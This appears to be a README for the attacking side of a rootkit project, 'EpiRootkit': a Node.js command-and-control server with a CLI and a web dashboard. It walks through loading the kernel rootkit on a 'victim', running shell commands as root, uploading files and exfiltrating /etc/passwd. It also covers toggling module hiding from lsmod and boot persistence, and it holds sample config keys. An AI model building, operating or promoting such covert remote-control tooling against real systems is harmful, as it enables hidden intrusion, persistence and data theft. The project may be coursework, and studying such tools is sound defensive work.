 ```yaml
---
title: "README"
description: "C2 server and attacking program architecture"
icon: "dashboard"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 31
---
```


# Attacking Program Overview

Professional C2 (Command & Control) server built with Node.js providing CLI interface for managing EpiRootkit connections.

## Quick Start

```bash
# Install and start
cd attacking_program && pnpm install && pnpm start
# Server started on port 4444
# Web interface: http://localhost:3000

# Basic usage
c2-server$ ls
# • Client-1 - UNAUTHENTICATED - Last seen: 6:13:09 PM

c2-server$ auth Client-1 password
# ✓ Authentication successful
```

## Architecture

### Core Components
- **CLI Interface**: Vorpal.js-based interactive commands
- **C2 Server**: Node.js TCP server for rootkit communication
- **Web Interface**: Basic REST API and Socket.IO dashboard

### Technology Stack
- **Runtime**: Node.js 18+ with pnpm package manager
- **CLI**: Vorpal.js for interactive command interface
- **Server**: Express.js with Socket.IO for real-time updates
- **Encryption**: Optional XOR cipher for traffic obfuscation (currently disabled on rootkit side)

## CLI Commands

### Client Management
```bash
ls                          # List connected clients
auth <client> <password>    # Authenticate with client using dynamic password
status <client>             # Get client status information
config <client>             # Interactive configuration menu
```

### Operations
```bash
exec <client> <command>                     # Execute shell command
upload <client> <local> <remote>            # Upload file to victim
download <client> <remote> <local>          # Download file from victim
```

## Interactive Configuration

```bash
c2-server$ config Client-1
# ┌─ Rootkit Configuration - Client-1
#   • [X] Module Hiding: ENABLED
#   • [X] Persistence: ENABLED
# 
# ? Select option: Toggle Module Hiding
# ✓ Module hiding disabled
```

Available options:
- **Module Hiding**: Show/hide rootkit from `lsmod`
- **Persistence**: Install/remove boot persistence
- **Status Refresh**: Update current configuration

## Live Demo Session

### Connection & Authentication
```bash
# Start server
pnpm start

# Load rootkit on victim
sudo insmod epirootkit.ko
# [C2 shows] New client connected: Client-1

# Authenticate with dynamic password
c2-server$ auth Client-1 password
# ✓ Authentication successful
```

### Command Execution
```bash
c2-server$ exec Client-1 whoami
# Exit code: 0
# Output:
# root

c2-server$ exec Client-1 uname -a
# Exit code: 0
# Output:
# Linux victim 5.4.0-74-generic #83-Ubuntu...
```

### File Operations
```bash
c2-server$ upload Client-1 ./test.txt /tmp/test.txt
# ✓ File uploaded successfully (1024 bytes)

c2-server$ download Client-1 /etc/passwd ./passwd_copy
# ✓ File downloaded successfully (2048 bytes)
```

## Configuration

### Server Settings
```bash
# attacking_program/config.env
C2_PORT=4444                    # C2 server port
WEB_PORT=3000                   # Web interface port
ENABLE_ENCRYPTION=true          # Enable XOR encryption (rootkit has it disabled)
ENCRYPTION_KEY=MySecretKey123   # Encryption key
PASSWORD_HASH=b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86  # SHA-512 hash of "password"
```

### Authentication
Uses dynamic password authentication where:
1. C2 sends plain text password via `auth <client> <password>` command
2. Rootkit hashes the password using SHA-512 and compares with stored hash
3. Authentication response indicates success/failure
4. Includes rate limiting (5 attempts max) and session timeout (1 hour)

## Security Features

- **Dynamic authentication**: SHA-512 hashing with brute force protection
- **Optional encryption**: XOR cipher for traffic obfuscation (currently mismatched - enabled on C2, disabled on rootkit)
- **Session management**: Automatic timeout and cleanup
- **Access control**: Commands require authentication

## Web Interface

Basic web dashboard available at `http://localhost:3000` with:
- REST API for client management
- Socket.IO for real-time updates
- Simple client status dashboard

## Current Configuration Issues

**⚠️ Encryption Mismatch**: The C2 server has encryption enabled (`ENABLE_ENCRYPTION=true`) but the rootkit has it disabled (`ENABLE_ENCRYPTION 0`). This means:
- C2 expects encrypted communication
- Rootkit sends unencrypted messages
- Communication works but is unencrypted despite C2 configuration

To fix: Either enable encryption in rootkit or disable it in C2 server.

---

Provides complete C2 functionality with professional CLI interface and web dashboard for rootkit management. 